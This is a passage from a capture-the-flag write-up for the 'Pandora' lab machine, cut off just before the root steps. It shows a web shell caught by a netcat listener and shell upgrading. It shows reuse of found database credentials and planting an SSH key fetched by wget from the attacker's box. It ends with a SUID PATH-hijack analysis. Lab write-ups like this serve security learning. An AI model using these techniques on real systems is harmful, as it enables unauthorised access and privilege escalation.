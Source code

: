         * If that does not work, just go to http: [//127.0.0.1:9005/pandora\_console/extensions](notion://127.0.0.1/pandora\_console/extensions) and click on ezshell.php while the netcat listener is running and you will be presented with a shell in your listener!
* We have shell, now what?
  * Upgrade your dummy shell.
    * python3 -c 'import pty;pty.spawn("/bin/bash")'
    * Now, you see that you are the user "Matt".
    * Navigate to Matt's home directory and grab the user flag: "cat user.txt"
* Privilege Escalation Time -- Let's get that ROOOOOOOT BABY!!!
  * I ended up getting [linpeas.sh](http://linpeas.sh/) on the target via HTTP server.
  * Let's try a Linux Process Snooping tool called pspy:
  * http:// [github.com/DominicBreuker/pspy](http://github.com/DominicBreuker/pspy)
  * I found MariaDB Credentials
  * "mysql -u pandora -p pandora" Password: PandoraFMSSecurePass2021
  * Now you get access to MariaDB
  * Unfortunately, to my knowledge, this is a rabbit hole and just wasted my time.
  * We see in linpeas that there is an unknown SUID named pandora\_backup. This file is in /usr/bin.
  * Let's try to run it: "./pandora\_backup"
  * It will fail. Let's cat it and see what's in it.
  * We need to upgrade our shell to a more stable shell. Maybe even something more secure?
  * To do this, we generate an SSH key on our attack box.
    * Go into your home directory and do "ssh-keygen"
    * Cat your id\_rsa.pub and copy it.
    * Nano a file called authorized\_keys and paste your id\_rsa.pub key in here.
    * Now go into your .ssh file and begin a http.server: "
      * python3 -m http.server"
      * Now get back to the target machine.
      * Navigate to Matt's home directory.
      * Generate an SSH key with "ssh-keygen"
      * Cd into the .ssh directory in Matt's home directory.
      * "wget http: //ipaddress:8000/authorized\_keys"
      * Change permissions on the authorized\_keys file or this will not work. It must be 600.
        * "chmod 600 authorized\_keys"
      * Go back to your attack box and SSH into the machine as Matt:
        * "ssh -i /home/kali/.ssh/id\_rsa [matt@10.10.11.136](mailto:matt@10.10.11.136)"
        * You should now have access via SSH as Matt.
* If you look at the Linpeas output, you will notice that there is an unknown SUID file known as "pandora\_backup".
* I catted the file and saw the following:
  * "system("tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora\_console/\*);"
  * Usually, when a binary is called in system(), it is specifying its full path.
  * When you run a "sudo -l" on your own machine, you will see that a "secure\_path" variable is established.
    * As long as the secure\_path is defined, the system won't run any binary outside of the secure\_path without root privileges.
    * When we tried to "sudo -l" on the box without an SSH session, we saw that a policy could not be established -hence secure\_path.
    * So, if we were to make a custom binary (we'll name it "tar" for example) and add it to path, what is stopping the system from running it?
      * Usually, secure\_path will handle it and it won't be executed unless there are root privileges. But in this case, there is no defined secure\_path.
* \*\*\* - Steps to root: \*\*\*\*
